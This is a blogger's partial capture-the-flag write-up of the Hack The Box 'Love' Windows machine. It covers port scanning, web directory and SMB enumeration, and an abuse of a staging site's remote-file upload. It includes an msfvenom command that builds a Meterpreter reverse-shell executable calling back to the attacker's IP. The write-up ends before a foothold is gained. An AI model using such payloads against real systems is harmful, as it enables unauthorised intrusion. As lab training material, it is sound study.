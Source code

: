 ```yaml
---
title: "Love"
author: "Me"
date: "June 30, 2021"
output: html_document
---
```


# Love

 <div id="boxinfo">
 <div id="textbox">
 <p class="alignleft">**Difficulty**: easy (?/10)</p>
 <p class="aligncenter">**Type**: CTF</p>
 <p class="alignright">**OS**: Windows</p>
 </div>
 <div style="clear: both;"></div>
 </div> 

<div class="img_container">
![desc]({{https://jsom1.github.io/}}/_images/htb_love_desc.png){: height="415px" width = 625px"}
</div>

**Ports/services exploited:** -\\
**Tools:** -\\
**Techniques:** SMB enumeration\\
**Keywords:** -


## 1. Port scanning
{:style="color:DarkRed; font-size: 170%;"}

We'll start with the usual TCP scan and the flags *-sV* to have a verbose output, *-O* to enable OS detection, and *-sC* to enable the most common scripts scan:

<div class="img_container">
![nmap]({{https://jsom1.github.io/}}/_images/htb_love_nmap1.png)
</div>
<div class="img_container">
![nmap]({{https://jsom1.github.io/}}/_images/htb_love_nmap2.png)
</div>

That's a lengthy output! This is often the case on Windows boxes... There's a web server on port 80, MSRPC on port 135, SMB on ports 139 and 445, https on port 443, MySQL (MariaDB) on port 3306 and finally another https on port 5000.\\
The scripts provide some information about SMB, such as the host's OS and the computer name on the network.\\
We will start by the simplest, that is browsing to the box' web page. The second thing we'll do is enumerate SMB.

## 2. Find and exploit vulnerabilities
{:style="color:DarkRed; font-size: 170%;"}

Instead of browsing to the IP, let's add this latter to our hosts file:

````
sudo echo '10.10.10.239 love.htb' >> /etc/hosts
`````

Now we can use the host name:

<div class="img_container">
![website]({{https://jsom1.github.io/}}/_images/htb_love_site.png)
</div>

I tried to submit credentials such as "1/admin", to no avail. Let's use *dirb* to enumerate directories:

<div class="img_container">
![dirb]({{https://jsom1.github.io/}}/_images/htb_love_dirb.png)
</div>

We are not authorized to access most of those directories, but we have access to */admin* and its variations. Browsing at *love.htb/admin*, we see a very similar page to the previous one.\\
This time however, it requires a username instead of an ID. We obviously try some common credentials (admin/admin) again, but still without luck.\\
At this point we might be tempted to bruteforce the login with *Hydra*, but it's not necessarily a good idea... The chances of success are relatively low, it can take a lot of time depending on the chosen wordlist and it's not very discrete.
In the worst case (I doubt it's the case here though), it could get our IP address banned. So, let's look at the other options we have.

One thing we can do is check if the application is vulnerable to SQL injections.
To test that, we simply input a " ' " in the username and password fields. If the application returns a weird error, it indicates that it doesn't properly sanitize users input and might therefore be vulnerable.\\
Unfortunately it is not the case here. If it were the case or if we saw an URL of the form */something.php?**id=1***, we could use *sqlmap* to try SQLis.

Other than */admin*, dirb found a few other accessible directories: 

- */dist*: contains 3 sub-directories (*css, img and js*). Those latter contain *css*, *JavaScript* and *png* files. I went through some of them, but nothing interesting stood out.
- */images* (and */Images*): contains images, nothing useful.
- */includes*: contains seven php scripts. Some of them display a blank page. I *wget* them on Kali to see their content, but they were empty. The others have nothing interesting.
- */plugins*: nothing interesting.

We specified the *-r* flag in dirb, which prevents it from searching recursively. There are however subdirectories, for example */admin/includes*, which contains more scripts than the "normal" */includes*.
There is a script called *voters_modal.php* which allows the creation of new voters. I tried adding myself, but it didn't work...

Finally, I Googled the name of some scripts (like *ballot_modal* and *config_modal*) that appeared frequently. It appears it's from an application called **votesystem**, described as a "college voting site" (from the GitHub repo).
We can look if there's an existing exploit in Metasploit:

````
searchsploit votesystem
`````

Nothing. Now that we've enumerated this service quite well and didn't find anything, we can look at another one. Based on my little Windows CTF experience, SMB is often the way to a foothold.
Let's have a look at it. We'll perform a thorough enumation and start with the following tools:

- **nmblookup**: client program that allows command-line access to NetBIOS name service. It's used for resolving NetBIOS computer names into IP adddresses. We will use the *-A* flag which specifies a lookup by IP.
- **nbtscan**: scans a network or IP for NetBIOS name information
- **smbclient**: it's a client with an FTP-like interface. It is used to test connectivity to a Windows share, to transfer files and look at share names. The *-L* flag is to get a list of shares available on the host.
- **smbmap**: tool that allows users to enumerate share drives. We'll use the *-H* flag to specify the host's IP.

The results of those tools is the following:

<div class="img_container">
![SMB]({{https://jsom1.github.io/}}/_images/htb_love_smb.png)
</div>

No luck, none of them found anythin. We saw in nmap's output that it ran the following NSE scripts for SMB enumeration: *smb-os-discovery*, *smb-security-mode*, *smb2-security-mode* and *smb2-time*.
There are however other available scripts, such as *smb-enum-shares*. Similarly to smbclient and smbmap, it tries to list share:

<div class="img_container">
![SMB nse]({{https://jsom1.github.io/}}/_images/htb_love_smbnse.png)
</div>

Although the script couldn't access the shares, they are still listed. We see the shares *ADMIN$*, *C$* and *IPC$*. Those are the defaut shares that are created when we create a CIFS (Common Internet File System) server. SMB is the modern concept of CIFS.
Anyways, I hoped we would find a non default share...\\
There are also a variety of nse scripts which analyze vulnerabilities such as *ms07-029*, *ms06-025*, *conficker*, and so on. We can run all of them at once with the following command:

````
sudo nmap --script smb-vuln* <target IP>
`````

<div class="img_container">
![SMB vuln]({{https://jsom1.github.io/}}/_images/htb_love_smbvuln.png)
</div>

We see the server is not vulnerable to *ms10-054*, and we don't know about *ms10-061*. This time, the service running on port 5000 is identified as *upnp*.\\
I don't know this service, and Google indicates it stands for "Universal Plug and Play". 
It is a set of networking protocols that permits networked devices, such as personal computers, printers, Internet gateways, Wi-Fi access points and mobile devices to seamlessly discover each other's presence on the network and establish functional network services.\\
That could be interesting later. Even though we find nothing on SMB, let's use a last too for the sake of enumeration completeness. We will finish by using **enum4linux**, which is going to automate the manual process we just went through:

<div class="img_container">
![enum4linux]({{https://jsom1.github.io/}}/_images/htb_love_enum4l.png)
</div>

Of course it failed early... We get a useful information though: the server doesn't alllow null sessions. Since this latter is often a necessary condition for expoitation, enu4linux aborted the rest of the scan.\\
SMB doesn't look to be our way in... 

Let's get back at the initial nmap scan to figure out our next move. 
I realize I may have overlooked something about http and didn't enumerate it properly. In particular, it's the first time I see "PHPSESSID: httponly flag not set". A quick search reveals that this indicates to the browser that the cookie can be accessed by client-side scripts. We'll check that, and also the versions of httpd (2.4.46) and php (7.3.27). Nothing there...\\
After re-rereading nmap's output, there's something I didn't see:

<div class="img_container">
![I'm blind]({{https://jsom1.github.io/}}/_images/htb_love_blind.png)
</div>

We add this host to our host file:

````
sudo echo '10.10.10.239 staging.love.htb >> /etc/hosts
`````

And browse to it:

<div class="img_container">
![site 2]({{https://jsom1.github.io/}}/_images/htb_love_site2.png){: height="415px" width = 625px"}
</div>

Ther's not much on the home page, but here's the *Demo* tab:

<div class="img_container">
![site 3]({{https://jsom1.github.io/}}/_images/htb_love_site3.png)
</div>

Let's try to upload a file. I'll start a web server on Kali and try to download Linpeas.sh from the server (just to see what happens):

<div class="img_container">
![upload]({{https://jsom1.github.io/}}/_images/htb_love_upload.png)
</div>

I'm not sure about what it does exactly... Does it execute it? If it does, we could easily get a reverse shell... Being able to upload remote files into an application's running code is known as a **RFI** (remote file inclusion) vulnerability. This kind of vulnerability is commonly found in PHP applications. In order to exploit such a vulnerability, we must be able to not only execute code, but also to write our shell payload somewhere. Usually we can't simpy upload a file like here, but I won't explain how it works in other situations here. \\
Instead, let's upload something simpler to understand how it works. Atfter many tries, I used *msfvenom* to create a reverse shell with the following syntax:

````
sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.6 LPORT=4444 -f exe > test.exe
`````

I then started a *multi/handler* and uploaded the file on the server. En error message appears: "This program cannot be run in DOS mode.". I Googled it and it appears this error occurs when we try to run a program intended for Windows inside DOS. DOS (Disk Operating System) is an OS that runs from a hard disk drive. It can also refer to a particular family of disk OS, most commonly MS-DOS (Microsoft-DOS).\\


<ins>**My thoughts**</ins>
 
As usual, many rabbit holes. SMB enumeration didn't bring anything useful but was a great opportunity to practice it.

